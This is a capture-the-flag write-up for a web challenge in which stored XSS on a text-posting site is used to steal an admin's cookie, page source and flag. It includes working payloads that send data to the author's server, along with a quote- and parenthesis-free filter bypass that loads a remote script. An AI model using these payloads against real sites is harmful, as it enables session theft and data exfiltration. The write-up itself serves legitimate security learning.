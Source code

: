 ## Admin Secrets
### Category : Web

TDLR;

XSS Challenge, with filter evasion.

So, Challenge description was `See if you can get the flag from the admin at this website!`. 

We visit the given URL, and greeted with a Sign Up page. 

On creating a account, we have the ability to make posts.

The interesting part was, the created posts can now be "reported" to the admin. Clearly we have to steal something from the admin. I started checking for a possible XSS vulnerabilit.


First Payload `<script>alert('XSS');</script>` and booyah, we get a alert. 

![](popup.png)

So, I setup a a VPS, with a `python3 http.server` running in the background to log requests.

First thing, I thought was to steal cookies?

My payload :

```
<script> document.children[0].innerHTML+='<img src="http://myvps.com/?data?cookie=' + btoa(document.cookie) + '" />'</script>
```

Explanation :: I add a new element in the body, a img with the src = myVPS and document.cookie base64'd to prevent any spaces breaking the get request. 

I get the following request
```
3.83.190.219 - - [24/May/2020 19:09:50] "GET /?data?cookie=aGludD0iQ2hlY2sgdGhlIGFkbWluIGNvbnNvbGUhXDAxMiI= HTTP/1.1" 200 
```

On decoding cookie : 
```
hint="Check the admin console!\012"
```
Aah, I'll need the source of the page. I use the following payload to get the source

```
<script>var xhr = new XMLHttpRequest(); xhr.onreadystatechange=function(){if (xhr.readyState == 4){ document.children[0].innerHTML+='<img src="http://myvps.com/?data?cookie=' + btoa(xhr.response) + '" />';}}; xhr.open(`GET`, `/posts/E9Rx1Qvl6xaXEmnX`,true); xhr.withCredentials = true;xhr.send(null);
</script>
```

Explanation : I create a XHRRequest, which goes and steals a page from one of the posts, and returns the base64 of the page's source.

Decode Source

```
<!doctype html>
<html>
    <head>
        <meta charset="utf-8">
        <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
        <title>Textbin</title>
        <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.3.1/css/bootstrap.min.css" integrity="sha384-ggOyR0iXCbMQv3Xipma34MD+dH/1fQ784/j6cY/iJTQUOhcWr7x9JvoRxT2MZw1T" crossorigin="anonymous">
        <link rel="stylesheet" href="/static/css/style.css">
    </head>
    <body>
        <nav class="navbar navbar-expand-lg navbar-light bg-light">
          <button class="navbar-toggler" type="button" data-toggle="collapse" data-target="#navbarNav" aria-controls="navbarNav" aria-expanded="false" aria-label="Toggle navigation">
            <span class="navbar-toggler-icon"></span>
          </button>
          <div class="collapse navbar-collapse" id="navbarNav">
            <ul class="navbar-nav">
              <li class="nav-item active">
                <a class="nav-link" href="/">Home<span class="sr-only">(current)</span></a>
              </li>
              
            </ul>
          </div>
        </nav>
        <div class="container">
            <div class="row">
                <div class="col-12">
                    <h1>Textbin</h1>
                </div>
            </div>
            <div class="row">
                <div class="col-8 textbody">
                    
                        <img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHA6Ly8xMjguMTk5LjEzMC4xOC95Ijtkb2N1bWVudC5ib2R5LmFwcGVuZENoaWxkKGEpOw onerror=&#x65;&#x76;&#x61;&#x6C;&#x28;&#x61;&#x74;&#x6F;&#x62;&#x28;&#x74;&#x68;&#x69;&#x73;&#x2E;&#x69;&#x64;&#x29;&#x29;> 
                    
                </div>
            </div>
            <div class="row">
                <div class="col-8" >
                    
                        <small>By user <code>123456</code></small>
                    
                </div>
            </div>

            <div class="row" style="margin-bottom:10px">
                <div class="col-8" >
                    <button type="button" class="btn btn-warning" id="report">Report to Admin</button>
                </div>
            </div>
            <div class="row">
                <div class="col-8 admin_console" >
                    <!-- Only the admin can see this -->
                    
                        
                            <button  class="btn btn-primary flag-button">Access Flag</button>

<a href="/button" class="btn btn-primary other-button">Delete User</a>

<a href="/button" class="btn btn-primary other-button">Delete Post</a>
 
                        
                    
                </div>
            </div>
            <div id="responseAlert" class="alert alert-info" role="alert"></div>
        </div>
        <script src="https://code.jquery.com/jquery-3.3.1.min.js" crossorigin="anonymous"></script>
        <script src="https://cdnjs.cloudflare.com/ajax/libs/popper.js/1.14.7/umd/popper.min.js" integrity="sha384-UO2eT0CpHqdSJQ6hJty5KVphtPhzWj9WO1clHTMGa3JDZwrnQq4sF86dIHNDz0W1" crossorigin="anonymous"></script>
        <script src="https://stackpath.bootstrapcdn.com/bootstrap/4.3.1/js/bootstrap.min.js" integrity="sha384-JjSmVgyd0p3pXB1rRibZUAYoIIy6OrQ6VrjIEaFf/nJGzIxFDsf4x0xIM+B07jRM" crossorigin="anonymous"></script>
        <script>
            
            $('#responseAlert').css('display','none');
            $('#report').on('click',function(e){
                $.ajax({
                    type: "GET",
                    url: window.location.pathname+"/report",
                    success: function(resp) {
                        $("#responseAlert").text(resp); $("#responseAlert").css("display","");
                    }
                })
            });
            

                var flag='';
                f=function(e){

                    $.ajax({
                        type: "GET",
                        url: "/admin_flag",
                        success: function(resp) {
                            flag=resp;$("#responseAlert").text(resp); $("#responseAlert").css("display","");
                        }
                    })
                    return flag;
                };
                $('.flag-button').on('click',f);
            

             
        </script>
    </body>
</html>
```


And, we find the endpoint `/admin_flag`.


I modify my XHR request, to go and borrow `admin_flag` instead one of the posts. 

```
3.83.190.219 - - [24/May/2020 19:25:36] "GET /?data?cookie=VGhpcyBwb3N0IGNvbnRhaW5zIHVuc2FmZSBjb250ZW50LiBUbyBwcmV2ZW50IHVuYXV0aG9yaXplZCBhY2Nlc3MsIHRoZSBmbGFnIGNhbm5vdCBiZSBhY2Nlc3NlZCBmb3IgdGhlIGZvbGxvd2luZyB2aW9sYXRpb25zOiBTY3JpcHQgdGFncyBmb3VuZC4gU2luZ2xlIHF1b3RlIGZvdW5kLiBEb3VibGUgcXVvdGUgZm91bmQuIEJhY2t0aWNrIGZvdW5kLiBQYXJlbnRoZXNpcyBmb3VuZC4g HTTP/1.1" 200 -
```

Decoded Response :
```
This post contains unsafe content. To prevent unauthorized access, the flag cannot be accessed for the following violations: Script tags found. Single quote found. Double quote found. Backtick found. Parenthesis found. 
```

Now, it's a XSS Filter Evasion. We have a filter for Script tage, both quotes, backticks AND Parenthesis. 

Wow!

My idea, now is to make the payload, such that it grabs the main script from my VPS, and then moves forward. The following payload is what I get..


```
<img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHA6Ly9teXZwcy5jb20vc2NyaXB0Ijtkb2N1bWVudC5ib2R5LmFwcGVuZENoaWxkKGEpOw onerror=&#x65;&#x76;&#x61;&#x6C;&#x28;&#x61;&#x74;&#x6F;&#x62;&#x28;&#x74;&#x68;&#x69;&#x73;&#x2E;&#x69;&#x64;&#x29;&#x29;>
```

Explanation ::

img has a unknown src, which will cause a error. Which get the onerror part of the tag to activate. The onerror part has `eval(atob(this.id))` encoded into HTML tag, which decoder id, and evaluates as a js script.


this.id when decoded gives

```
var a=document.createElement("script");a.src="http://myvps.com/script";document.body.appendChild(a);
```

We get the following result:

```
3.83.190.219 - - [24/May/2020 19:28:47] "GET /?data?cookie=dGpjdGZ7c3QwcF9zdDNhbGluZ190aDNfQURtMW5zX2ZsNGdzfQ== HTTP/1.1" 200 -

```

When decoded gives the flag 


```
tjctf{st0p_st3aling_th3_ADm1ns_fl4gs}
```

This was one hell of a challenge, really fun to solve, no guessing! .
